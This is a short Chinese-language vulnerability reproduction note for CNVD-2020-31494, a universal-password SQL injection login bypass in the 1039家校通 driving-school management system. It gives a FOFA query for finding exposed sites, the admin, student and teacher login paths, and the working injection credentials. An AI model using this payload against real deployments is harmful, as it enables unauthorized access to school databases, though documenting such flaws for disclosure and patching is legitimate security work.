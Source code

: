 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

> [!NOTE]
>
> 1039家校通 v1.0 - v6.0

## FOFA

> [!NOTE]
>
> title="学员登录_1039家校通"

## 漏洞复现

管理员登录接口为

```
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```

![](image/1039-2.png)

账号密码为如下即可登录

```
user:peiqi
pass:' or ''='
```

![](image/1039-1.png)



